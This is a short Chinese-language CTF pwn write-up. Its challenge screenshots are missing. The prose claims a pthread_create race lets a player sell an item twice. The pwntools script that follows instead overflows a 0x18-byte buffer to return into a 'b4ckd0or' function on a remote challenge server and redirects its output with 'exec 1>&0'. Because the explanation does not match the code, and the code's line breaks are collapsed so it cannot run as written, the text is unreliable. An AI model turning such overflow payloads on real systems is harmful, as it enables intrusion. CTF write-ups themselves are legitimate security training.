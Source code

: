 我们这一题，首先拿到我们的一个程序如下所示：
![[Pasted image 20240131160745.png]]

![[Pasted image 20240131160752.png]]


![[Pasted image 20240131160800.png]]

![[Pasted image 20240131160808.png]]

我们发现，我们需要的 flag 文件，已经被我们放到了我们的 look 函数当中，只要我们能够执行我们的 look 函数，那么我们就一定能得到我们的 flag。

于是，我们观察到我们的售卖功能实际上是使用了一个 `pthread_create` 函数，这一类函数是存在时间间隔的，因此，只要我们的指令发送的足够快，那么我们就可以卖出两次。我们就可以得到我们的结果。

```python
# coding=utf-8 
from pwn import * context(log_level='debug',arch='amd64', os='linux') pwnfile= './vuln' 
# io = process(pwnfile)
io = remote('1.14.71.254', 28804) elf = ELF(pwnfile) padding = 0x18 ret = 0x40101a fun_addr = elf.sym['b4ckd0or'] payload = flat([b'a'* padding , ret,fun_addr]) io.sendline(payload) io.sendline("exec 1>&0\n") #把输出重定向 io.interactive()
```